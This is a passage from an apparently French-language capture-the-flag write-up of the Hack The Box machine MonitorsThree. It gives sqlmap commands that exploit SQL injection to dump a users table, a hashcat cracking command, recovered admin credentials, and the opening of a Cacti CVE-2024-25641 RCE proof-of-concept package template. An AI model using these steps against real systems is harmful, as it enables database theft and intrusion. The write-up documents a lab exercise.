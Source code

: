 ![SQL injection on username parameter](/images/HTB-MonitorsThree/sqlmap1.png)

Nous énumérons la cible et trouvons deux bases de données.

```
sqlmap -r reset.txt --level 5 --risk 3 -p username --batch --threads=10 --batch --dbs
```

![databases found](/images/HTB-MonitorsThree/dbs_found.png)

Nous pouvons maintenant énumérer les tables de la base de données `monitorsthree_db` puisque `information_schema` est une base de données système par défaut dans MySQL.

```
sqlmap -r reset.txt --level 5 --risk 3 -p username --batch --threads=10 --batch -D monitorsthree_db --tables
```

![tables found](/images/HTB-MonitorsThree/db_tables.png)

La table `users` est la plus prometteuse.

```
sqlmap -r reset.txt --level 5 --risk 3 -p username --batch --threads=10 -D monitorsthree_db -T users --dbms=mysql --technique=T --dump
```

![SQLmap hashes found](/images/HTB-MonitorsThree/SQLmap_hashes.png)

Nous récupérons le mot de passe de `admin` avec hashcat.

```
hashcat -m 0 -a 0 admin_hash.txt /usr/share/wordlists/rockyou.txt
```

![admin password](/images/HTB-MonitorsThree/admin_pwd.png)

Avec les identifiants `admin:greencacti2001` nous nous connectons à Cacti et accédons au tableau de bord.

> Les mêmes identifiants fonctionnent également sur la page de connexion à `http://monitorsthree.htb/login.php`.

![cacti dashboard](/images/HTB-MonitorsThree/cacti_dashboard.png)

## Accès initial

### Exploitation manuelle

La recherche de vulnérabilités pour la version 1.2.26 de `Cacti` conduit au `CVE-2024-25641` permettant un RCE en utilisant un paquet malveillant. Le PoC est disponible [ici](https://github.com/cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88).

```PHP
<?php

$xmldata = "<xml>
   <files>
       <file>
           <name>resource/test.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";
```
